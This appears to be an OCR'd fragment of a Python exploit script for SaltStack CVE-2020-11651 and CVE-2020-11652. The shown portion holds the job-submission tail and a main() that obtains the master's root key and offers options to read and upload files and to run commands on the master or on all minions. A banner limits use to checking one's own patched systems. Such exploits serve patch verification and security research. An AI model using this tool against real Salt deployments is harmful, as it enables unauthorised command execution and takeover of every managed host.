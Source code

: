         try:
            rets = channel.send(msg, timeout=3)
        except Exception as e:
            print('[-] Failed to submit job')
            return
        finally:
            if rets == None:
                print('[+] Successfully submitted job to all minions.')
            else:
                print('[-] Failed to submit job')


    def main():
        parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
        parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
        parser.add_argument('--port', '-p', dest='master_port', default='4506')
        parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
        parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
        parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
        parser.add_argument('--read', '-r', dest='read_file')
        parser.add_argument('--upload-src', dest='upload_src')
        parser.add_argument('--upload-dest', dest='upload_dest')
        parser.add_argument('--exec', dest='exec', help='Run a command on the master')
        parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
        args = parser.parse_args()

        print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
        time.sleep(1)

        # Both src and destination are required for uploads
        if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
            print('[-] Must provide both --upload-src and --upload-dest')
            sys.exit(1)

        channel = init_minion(args.master_ip, args.master_port)

        check_connection(args.master_ip, args.master_port, channel)

        root_key = check_CVE_2020_11651(channel)
        if root_key:
            print('[*] root key obtained: {}'.format(root_key))
        else:
            print('[-] Failed to find root key...aborting')
            sys.exit(127)

        if args.run_checks:
            # Assuming this check runs on the master itself, create a file with "secret" content
            # and abuse CVE-2020-11652 to read it.
            top_secret_file_path = '/tmp/salt_cve_teta'
            with salt.utils.fopen(top_secret_file_path, 'w') as fd:
                fd.write("top secret")
